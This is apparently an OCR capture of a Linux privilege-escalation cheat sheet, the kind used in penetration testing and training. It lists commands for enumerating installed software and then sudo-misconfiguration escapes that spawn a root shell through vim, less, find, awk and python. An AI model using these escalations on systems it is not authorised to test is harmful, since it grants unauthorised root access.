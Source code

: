 ### Installed Software
```bash
# Debian/Ubuntu
dpkg -l
apt list --installed

# RedHat/CentOS
rpm -qa
yum list installed

# Package managers
which apt apt-get yum dnf pacman snap flatpak pip pip3

# Development tools
which gcc g++ make python python3 perl ruby java javac
```

## Privilege Escalation Techniques

### 1. Sudo Misconfiguration
```bash
# Check sudo permissions
sudo -l

# Common sudo misconfigurations:

# 1. ALL=(ALL) NOPASSWD: ALL
sudo su -

# 2. Specific binary allowed
# If you can run vim with sudo:
sudo vim
:set shell=/bin/bash
:shell

# If you can run less/more with sudo:
sudo less /etc/passwd
!/bin/bash

# If you can run find with sudo:
sudo find /etc/passwd -exec sh \;

# If you can run awk with sudo:
sudo awk 'BEGIN {system("/bin/bash")}'

# If you can run python with sudo:
sudo python -c "import os; os.system('/bin/bash')"

# GTFOBins has comprehensive list of sudo bypasses
```
